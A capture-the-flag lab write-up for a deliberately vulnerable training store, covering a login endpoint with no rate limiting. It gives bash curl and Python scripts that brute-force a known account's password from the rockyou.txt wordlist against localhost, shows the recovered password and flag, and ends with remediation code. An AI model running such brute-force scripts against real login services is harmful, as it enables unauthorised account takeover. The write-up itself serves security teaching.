



This writeup covers the exploitation of a missing rate limiting control on the login endpoint of OopsSec Store. The vulnerability allows an attacker to perform an unrestricted brute force attack against a known email address, recovering the account password from a standard wordlist and achieving full account takeover.

## Table of contents

## Lab setup

The lab requires Node.js. From an empty directory, run the following commands:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Once Next.js has started, the application is accessible at `http://localhost:3000`.

## Reconnaissance

The application's News page (`/news`) contains a section titled "Leaked Data Sample" that simulates a published data breach. This section exposes three user records:

| Email                   | Leaked data      |
| ----------------------- | ---------------- |
| `alice@example.com`     | Email + MD5 hash |
| `bob@example.com`       | Email + MD5 hash |
| `vis.bruta@example.com` | Email only       |



The first two accounts have their password hashes exposed, which means they can be cracked offline. The third account, `vis.bruta@example.com`, has a confirmed valid email address but no associated hash. Since no hash is available, the only remaining attack vector is an online brute force against the login endpoint.

## Identifying the login endpoint

Submitting any credentials through the login form at `/login` sends a POST request to `/api/auth/login` with a JSON body:

```json
{
  "email": "vis.bruta@example.com",
  "password": "test"
}
```

Every failed attempt returns a `401` status with `{"error": "Invalid password"}`. The response is consistent regardless of how many attempts are made, which indicates the absence of any rate limiting, account lockout, or progressive delay mechanism.



## Exploitation

### Preparing the wordlist

The attack uses `rockyou.txt`, a widely available wordlist containing over 14 million passwords extracted from a real-world data breach. It is the standard wordlist for brute force exercises and covers most common passwords.

### Brute forcing with a bash loop

The following script iterates through the wordlist and sends each password to the login endpoint until a successful authentication response is received:

```bash
while read password; do
  response=$(curl -s -X POST http://localhost:3000/api/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"email\":\"vis.bruta@example.com\",\"password\":\"$password\"}")

  if echo "$response" | grep -q "token"; then
    echo "Password found: $password"
    echo "$response"
    break
  fi
done < rockyou.txt
```

The script checks each response for the presence of a `token` field, which only appears on successful authentication. Since the endpoint imposes no restrictions on request frequency, the script can send hundreds of requests per second.

### Alternative: brute forcing with Python

```python
import requests

url = "http://localhost:3000/api/auth/login"
email = "vis.bruta@example.com"

with open("rockyou.txt", "r", encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        response = requests.post(url, json={
            "email": email,
            "password": password
        })

        if response.status_code == 200:
            data = response.json()
            if "token" in data:
                print(f"Password found: {password}")
                print(f"Flag: {data.get('flag')}")
                break
```

### Result

After iterating through the wordlist, the script identifies the password:

```
Password found: sunshine
```

The password `sunshine` appears early in `rockyou.txt`, which means the attack completes within seconds.

## Capturing the flag

Navigate to `/login` in the browser and authenticate with the recovered credentials:

- Email: `vis.bruta@example.com`
- Password: `sunshine`

Upon successful login, a toast notification displays the flag:

```
OSS{brut3_f0rc3_n0_r4t3_l1m1t}
```



The flag is also returned in the JSON response body from the login API, confirming the account takeover.

## Vulnerable code analysis

The login handler in `/app/api/auth/login/route.ts` processes every incoming request without any form of throttling or abuse detection:

```typescript
export async function POST(request: Request) {
  try {
    const body = await request.json();
    const { email, password } = body;

    // No rate limiting, no account lockout, no delay

    const hashedPassword = hashMD5(password);
    const user = await prisma.user.findUnique({
      where: { email },
    });

    if (!user || user.password !== hashedPassword) {
      return NextResponse.json(
        { error: "Invalid password" },
        { status: 401 }
      );
    }

    // Authentication proceeds
  }
}
```

Several factors compound the vulnerability:

- **No request throttling**: The endpoint accepts an unlimited number of authentication attempts from any source, at any rate.
- **No account lockout**: Failed attempts are not tracked. The account remains accessible regardless of how many incorrect passwords are submitted.
- **MD5 password hashing**: The use of MD5, a fast hashing algorithm, means each attempt is processed with minimal computational cost on the server side.
- **Uniform error responses**: While consistent error messages are generally a good practice to prevent username enumeration, they also mean the server provides no signal that it has detected abnormal activity.

## Remediation

### Rate limiting

The most direct mitigation is to restrict the number of authentication attempts allowed within a given time window. A common threshold is five attempts per 15-minute window, scoped per IP address or per account:

```typescript
import rateLimit from "express-rate-limit";

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 5,
  message: { error: "Too many login attempts. Please try again later." },
  standardHeaders: true,
  legacyHeaders: false,
});
```

This control alone eliminates the viability of high-speed brute force attacks.

### Account lockout

Tracking failed authentication attempts per user account provides an additional layer of defense. After a configurable number of failures, the account enters a temporary lockout period:

```typescript
const MAX_FAILED_ATTEMPTS = 5;
const LOCKOUT_DURATION = 15 * 60 * 1000; // 15 minutes

if (user.failedLoginAttempts >= MAX_FAILED_ATTEMPTS) {
  const lockoutEnd = new Date(
    user.lastFailedLogin.getTime() + LOCKOUT_DURATION
  );
  if (new Date() < lockoutEnd) {
    return NextResponse.json(
      { error: "Account temporarily locked. Try again later." },
      { status: 429 }
    );
  }
}
```

Account lockout protects against distributed attacks where requests originate from multiple IP addresses, bypassing IP-based rate limits.

### Adopting a computationally expensive hash function

MD5 is unsuitable for password hashing for two reasons:

- First, it is designed for speed, which allows an attacker to compute billions of hashes per second on modern hardware.
- Second, MD5 is a pure function with no salt: identical passwords always produce identical hashes, making the output vulnerable to rainbow table lookups and precomputed dictionary attacks.

Replacing MD5 with bcrypt addresses both issues. Bcrypt incorporates a per-hash random salt, ensuring that two users with the same password produce different hashes, and its adjustable work factor significantly increases the computational cost of each verification attempt. This transforms brute force from a trivial operation into a computationally prohibitive one, even if rate limiting is somehow bypassed.
